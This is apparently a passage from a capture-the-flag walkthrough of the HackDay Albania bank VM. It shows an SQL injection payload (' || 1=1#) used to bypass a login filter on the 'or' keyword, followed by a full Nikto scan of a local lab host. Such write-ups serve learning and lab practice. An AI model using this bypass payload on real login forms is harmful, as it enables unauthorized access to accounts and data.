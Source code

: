 I ran Nikto while checking for SQL injection vulnerability on the login panel.

![SQL Injection](/assets/images/posts/hackday-albania-very-secure-bank-sqli.png)

The bank is vulnerable to SQL injection for sure, but it's filtering out the "or" operation. So I used this payload to get around it.

```
' || 1=1#
```

Meanwhile, Nikto doesn't seem to find anything useful.

```
$ nikto -h http://192.168.0.105:8008/unisxcudkqjydw/vulnbank/client/
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          192.168.0.105
+ Target Hostname:    192.168.0.105
+ Target Port:        8008
+ Start Time:         2016-11-20 20:20:06 (GMT7)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ Cookie PHPSESSID created without the httponly flag
+ Retrieved x-powered-by header: PHP/7.0.8-0ubuntu0.16.04.3
+ The anti-clickjacking X-Frame-Options header is not present.
+ Root page / redirects to: login.php
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-630: IIS may reveal its internal or real IP in the Location header via a request to the /images directory. The value is "http://127.0.1.1/unisxcudkqjydw/vulnbank/client/images/".
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ /unisxcudkqjydw/vulnbank/client/config.php: PHP Config file may contain database IDs and passwords.
+ OSVDB-3268: /unisxcudkqjydw/vulnbank/client/images/: Directory indexing found.
+ OSVDB-3268: /unisxcudkqjydw/vulnbank/client/images/?pattern=/etc/*&sort=name: Directory indexing found.
+ /unisxcudkqjydw/vulnbank/client/login.php: Admin login page/section found.
+ 6544 items checked: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2016-11-20 20:20:15 (GMT7) (9 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
